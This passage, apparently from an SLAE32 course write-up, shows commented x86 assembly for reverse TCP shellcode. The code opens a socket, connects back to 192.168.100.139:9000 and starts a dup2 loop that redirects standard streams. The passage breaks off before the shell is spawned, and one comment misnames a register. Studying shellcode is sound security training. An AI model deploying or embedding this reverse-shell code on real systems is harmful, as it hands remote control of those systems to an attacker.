 ![](/assets/img/SLAE/SLAE32/Assignment_2/1.png)

Wonderful!

Final Code:

```term
global _start

section .text

_start:

      xor eax, eax            ; Zeroes out EAX.
      xor ebx, ebx            ; Zeroes out EBX.
      xor ecx, ecx            ; Zeroes out ECX.
      xor edx, edx            ; Zeroes out EDX.

      push word 359           ; Pushes word 359 (socket) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov bl, 2               ; Moves value 2 into bl, giving the value AF_INET.
      mov cl, 1               ; Moves value 1 into bl, giving the value SOCK_STREAM.
      push edx                ; There isn't anything really needed within this parameter, so 0 is pushed from EDX.
      int 0x80                ; Call to kernel.
      mov esi, eax            ; Saves the value of eax for sockfd values later on.

connect:

      push word 362           ; Pushes word 362 (connect) into the stack
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov ebx, esi            ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
      push edx                ; Pushes 0.
      push dword 0x8b64a8c0   ; Pushes 192.168.100.139 in hex as a DWORD.
      push word 0x2823        ; Pushes 9000 in hex as a WORD.
      push word 0x02          ; Pushes AF_INET into the stack.
      mov ecx, esp            ; Copies the value of ESP into ECX.
      mov dl, 30              ; The value 30 is inserted into DL, anything above 16 can be used.
      int 0x80                ; Call to kernel.

      xor ecx, ecx            ; Zeroes out ECX.
      mov cl, 0x3             ; Starts counter for dup2.

dup2:

      xor eax, eax            ; Zeroes out EAX.

      push word 63            ; Pushes word 63 (dup2) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov ebx, esi            ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
      dec cl                  ; Decrements cl in order to set the zero flag (ZF)
```